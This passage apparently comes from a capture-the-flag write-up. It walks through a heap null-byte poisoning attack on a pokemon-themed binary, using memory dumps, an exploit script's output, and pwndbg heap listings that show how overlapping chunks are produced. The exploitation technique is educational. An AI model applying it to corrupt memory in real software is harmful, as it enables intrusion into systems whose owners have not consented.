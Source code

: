 ```
0x405400:       0x4141414141414141      0x4141414141414141
0x405410:       0x0000000000000210      0x0000000000000210
```

**That's needed to trigger the null byte**: in fact if we allocate again pokemon 1 and its name, we should get two identical sized chunks in the same spots as before, but the allocation of the chunk representing the pokemon name (chunk 3) would result in a null byte overflow into the name of pokemon 2 (chunk 4), which is immediatly after.

#### After executing the poisoning

This is the script `stdout` that led to the heap setup below:

```shell
creating a pokemon... done! id 0
creating a pokemon... done! id 1
creating a pokemon... done! id 2
creating a pokemon... done! id 3
renaming pkm (id: 2)
renaming pkm (id: 3)
creating a pokemon... done! id 4
renaming pkm (id: 3)
[1] initial setup done. Press any key to continue...
killing pkm (id: 3) :(
creating a pokemon... done! id 3
[2] freed B. Press any key to continue...
renaming pkm (id: 2)
[3] did null byte, now B length should be one byte smaller. Press any key to continue...
renaming pkm (id: 1)
creating a pokemon... done! id 5
[4] allocated B1 and B2. Press any key to continue...
killing pkm (id: 1) :(
creating a pokemon... done! id 1
[5] freed B1. Press any key to continue...
killing pkm (id: 4) :(
[6] freed C. Press any key to continue...
renaming pkm (id: 0)
[7] Allocated overlapping chunk. Press any key to continue...
```

```assembly
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x405000
Size: 0x101

Allocated chunk | PREV_INUSE
Addr: 0x405100
Size: 0x101

Allocated chunk | PREV_INUSE
Addr: 0x405200
Size: 0x101

Allocated chunk | PREV_INUSE
Addr: 0x405300
Size: 0x101

Allocated chunk | PREV_INUSE
Addr: 0x405400
Size: 0x211

Allocated chunk | PREV_INUSE
Addr: 0x405610
Size: 0x411
```